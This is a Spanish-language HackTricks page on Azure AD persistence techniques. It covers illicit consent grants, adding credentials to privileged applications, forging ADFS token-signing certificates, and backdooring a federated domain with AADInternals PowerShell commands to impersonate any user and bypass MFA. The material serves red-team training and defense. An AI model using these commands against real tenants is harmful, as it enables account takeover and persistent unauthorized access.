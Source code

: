 # Az - Persistencia

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Concesión Ilícita de Consentimiento

Por defecto, cualquier usuario puede registrar una aplicación en Azure AD. Así que puedes registrar una aplicación (solo para el inquilino objetivo) que necesite permisos de alto impacto con consentimiento de administrador (y aprobarlo si eres el administrador) - como enviar correos en nombre de un usuario, gestión de roles, etc. Esto nos permitirá **ejecutar ataques de phishing** que serían muy **fructíferos** en caso de éxito.

Además, también podrías aceptar esa aplicación con tu usuario como una forma de mantener el acceso sobre ella.

### Aplicaciones y Principales de Servicio

Con privilegios de Administrador de Aplicaciones, GA o un rol personalizado con permisos microsoft.directory/applications/credentials/update, podemos agregar credenciales (secreto o certificado) a una aplicación existente.

Es posible **dirigir una aplicación con altos permisos** o **agregar una nueva aplicación** con altos permisos.

Un rol interesante para agregar a la aplicación sería el **rol de administrador de autenticación privilegiada**, ya que permite **restablecer la contraseña** de los Administradores Globales.

Esta técnica también permite **eludir MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Para la autenticación basada en certificados

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federación - Certificado de Firma de Token

Con **privilegios de DA** en AD local, es posible crear e importar **nuevos certificados de firma de token** y **certificados de descifrado de token** que tienen una validez muy larga. Esto nos permitirá **iniciar sesión como cualquier usuario** cuyo ImuutableID conozcamos.

**Ejecuta** el siguiente comando como **DA en el/los servidor(es) ADFS** para crear nuevos certificados (contraseña predeterminada 'AADInternals'), agregarlos a ADFS, deshabilitar la rotación automática y reiniciar el servicio:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Luego, actualice la información del certificado con Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federación - Dominio de Confianza

Con privilegios de GA en un inquilino, es posible **agregar un nuevo dominio** (debe ser verificado), configurar su tipo de autenticación como Federado y configurar el dominio para **confiar en un certificado específico** (any.sts en el comando a continuación) y emisor:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referencias

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
